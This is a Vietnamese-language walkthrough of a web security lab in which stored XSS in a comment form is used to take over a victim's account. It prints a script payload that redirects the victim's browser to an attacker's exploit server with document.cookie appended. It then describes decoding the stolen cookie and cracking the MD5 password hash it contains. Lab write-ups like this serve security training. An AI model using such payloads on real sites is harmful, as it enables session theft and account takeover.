 # Lab: Offline password cracking

# 1. Vulnerable

Ở bài lab này, ta được cung cấp account cá nhân cũng như `victim's username`

Ở đây không được cung cấp list password như các lab khác nhưng lại xuất hiện lỗ hổng `XSS`

Lợi dụng `XSS` để chiếm cookie của `victim` để đăng nhập

# 2. Exploit

Ở phần post comment có `stored XSS` 

![vuln0.png](/images/vuln0.png)

Ở đây ta sẽ có 1 trang exploit

![vuln1.png](/images/vuln1.png)

Trang web này có ghi lại các lần truy cập vào file log mà ta có thể đọc được

![vuln2.png](/images/vuln2.png)

Ta sẽ có kịch bản khai thác như sau:

Lợi dụng `stored XSS` khiến victim bị chuyển truy cập vào link `exploit + cookie` và từ đó đăng nhập vào `victim's account`

Payload:

```
<script> document.location='exploit-url/' + document.cookie </script>
```

Sau khi `victim` đã bị XSS thì ta sẽ check file log và nhận được `cookie` 

![vuln3.png](/images/vuln3.png)

Sau khi đã lấy được `cookie` và đăng nhập vào `victim's account` thì ta sẽ giải mã `cookie` như sau:

```
base64-decode(carlos:md5(password)) (do đoạn hash có độ dài 32 ký tự là mặc định của hash md5)
```

![vuln4.png](/images/vuln4.png)

Ok decode đoạn hash của phần password và ta được

![vuln5.png](/images/vuln5.png)

Việc còn lại là xóa `victim's account` bằng mật khẩu đã decode được

![solved.png](/images/solved.png)